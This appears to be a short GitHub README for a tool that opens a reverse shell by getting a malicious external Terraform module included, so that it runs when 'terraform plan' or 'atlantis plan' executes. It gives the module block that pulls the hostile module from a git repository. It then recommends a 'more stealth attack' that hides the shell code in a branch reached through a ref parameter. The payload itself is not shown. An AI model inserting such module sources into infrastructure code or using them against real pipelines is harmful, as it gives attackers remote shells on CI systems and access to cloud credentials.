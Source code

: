 # tf_external_module_rev_shell

Terraform file external dependency injection to get rev shell when `terraform plan` or `atlantis plan` is run.

```bash
module "trust_me_not" {
  source = "git@github.com:ardroci/tf_external_module_rev_shell//modules"
}
```

For an even **more stealth attack** you can use the **ref** feature to hide the **terraform rev shell code in a branch** inside of the repo, something like:
```git@github.com:ardroci/tf_external_module_rev_shell//modules?ref=b401d2b```
